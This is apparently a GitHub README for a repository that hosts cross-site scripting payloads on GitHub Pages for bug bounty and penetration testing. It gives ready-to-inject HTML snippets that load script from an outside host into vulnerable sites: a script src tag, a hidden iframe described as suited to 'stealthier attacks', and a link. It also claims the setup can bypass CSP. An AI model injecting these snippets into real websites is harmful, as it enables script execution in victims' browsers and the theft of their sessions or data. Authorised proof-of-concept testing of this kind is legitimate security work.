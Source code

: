 # XSS Payload Host (GitHub Pages)

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.

## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

##  How to Use

Use This URL for XSS ---> [https://yogsec.github.io/xss-test/](https://yogsec.github.io/xss-test/)

Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting. When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a <script src> or <iframe> pointing to my hosted payload like

<script src="https://yogsec.github.io/xss-test/"></script>

Or, for stealthier attacks or to bypass certain restrictions, I use:

<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>

Or

<a href="https://yogsec.github.io/xss-test/">Click Here</a>
